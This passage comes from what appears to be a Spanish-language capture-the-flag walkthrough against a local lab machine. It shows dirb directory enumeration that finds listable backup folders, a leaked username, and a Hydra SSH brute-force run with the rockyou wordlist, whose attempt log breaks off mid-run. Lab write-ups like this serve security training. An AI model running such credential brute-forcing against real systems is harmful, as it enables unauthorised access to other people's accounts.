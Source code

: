 ```bash  
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)                                                                                                                                                                                      
                                                                                                                                                                                                                      
---- Entering directory: http://172.17.0.2/backup/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                                           
---- Entering directory: http://172.17.0.2/important/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Thu Feb 13 16:05:01 2025
DOWNLOADED: 4612 - FOUND: 2

```
Si revisamos el contenido del comando dirb podemos ver que nos ha listado dos directorios,"backup" y "important". Al determinar el contenido como indica la herramienta, podemos ver lo siguiente:

En el directorio "http://172.17.0.2/important/" 

Como se observa, hay un .md  del cual no hay nada destacable de momento.



![image](https://github.com/user-attachments/assets/a2049884-9de6-4536-9064-897f728c7630)


En el directorio "http://172.17.0.2/backup/" 

Aqui dentro hay un txt que indica el usuario por defecto que utiliza la víctima para los servicios.

![image](https://github.com/user-attachments/assets/cdd32666-5577-4f0c-b27a-c80b0864a101)

Si volvemos a revisar el nmap, podemos ver que tiene un servicio de SSH, así que probaremos este usuario con la herramienta Hydra.

```bash  
'Utilizamos el parámetro -vV para poder ver los resultados que prueba.'
┌──(alema㉿alema)-[~]
└─$ sudo hydra -l russoski  -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh  -vV

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-22 10:25:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://russoski@172.17.0.2:22
[INFO] Successful, password authentication is supported by ssh://172.17.0.2:22
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[VERBOSE] Disabled child 12 because of too many errors
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "654321" - 17 of 14344400 [child 0] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "michael" - 18 of 14344400 [child 2] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "ashley" - 19 of 14344400 [child 4] (0/1)
```